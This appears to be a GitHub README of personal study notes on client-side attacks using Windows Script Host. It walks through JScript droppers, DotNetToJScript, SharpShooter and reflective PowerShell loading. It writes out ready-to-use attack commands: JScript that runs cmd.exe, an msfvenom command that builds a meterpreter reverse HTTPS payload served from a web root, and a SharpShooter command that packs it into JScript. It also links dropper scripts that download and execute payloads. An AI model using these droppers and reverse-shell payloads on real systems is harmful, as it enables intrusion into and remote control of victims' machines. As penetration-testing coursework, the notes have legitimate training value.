 ## Basic Dropper in Jscript
Jscript is developed by Microsft that used in Internet Explorer. It can also be executed outside the browser through Windows Script Host(an automation technology for Microsoft Windows operating systems that provides scripting abilities think like batch files, but beefer).
We can use jscript to interact with ActiveX( software framework created by Microsoft back in 1996, it was desiged for content downloaded from a network(IE)) Consider the following code, We invoke **ActiveXObject** and use **WScript.Shell** to interact with the Windows Script Host Shell to execute external application. The file extension should be .js

```
var shell = new ActiveXObject("WScript.Shell")
var res = shell.Run("cmd.exe");
```

Method 1: Let's Create [Jscript payload Dropper](/02ClientSideWithWindowsScriptHost/JscriptPayloadDropper.js) to download and execute payload from our wbesite.

Method 2: To Do, Let's make the dropper proxy-aware, research setProxy method, Page 107.

## Mix Jscript and C#
Let's run payload completely from memory by using Win32 APIs. We can't invoke Win32API directly from Jscript. We'll embed a complited C# assembly in the Jscript file and execute it. We will need to use the [DotNetToJScript github code](https://github.com/tyranid/DotNetToJScript), once complie the example source code, we will use [DotNetToJScript.exe](/02ClientSideWithWindowsScriptHost/DotNetToJScript.exe) with [NDesk.Options.dll](/02ClientSideWithWindowsScriptHost/NDesk.Options.dll) to compile [ExampleAssembly.dll](/02ClientSideWithWindowsScriptHost/DotNetToJScript.exe) into an [demo.js](/02ClientSideWithWindowsScriptHost/demo.js) jscript.

```
DotNetToJScript.exe ExampleAssembly.dll --lang=Jscript --ver=v4 -o demo.js
```

Now, We can modify the default TestClass.cs to write our [payload dropper](/02ClientSideWithWindowsScriptHost/TestClass.cs ) in c# and conver it to jscript using the same DotNetToJScript.exe command.

The above method can also be done by using [SharpShoter](https://github.com/mdsecactivebreach/SharpShooter) framework.

First,Create a raw payload

```
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=ip LPORT=443 -f raw -o /var/www/html/shell.txt
```

then invoke SharpShooter.py to compile js code

```
sudo python SharpShooter.py --payload js --dotnetver 4 --stageless --rawscfile /var/www/html/shell.txt --output test
```

## Reflection powershell with pre-compiled C# assembly
Let's  fetch the pre-compiled assembly with c# and load it directly into memory using powershell. 
Now we can use the same code to compile a new dll to used in powershell.
- 1.Create a New **Class Libary .NET Framework project**
- 2.use the same ttps and compile the [cs code](/02ClientSideWithWindowsScriptHost/Class1.cs) into dll
- 3.create powershell [payload dropper](/02ClientSideWithWindowsScriptHost/reflectionRunner.ps1).

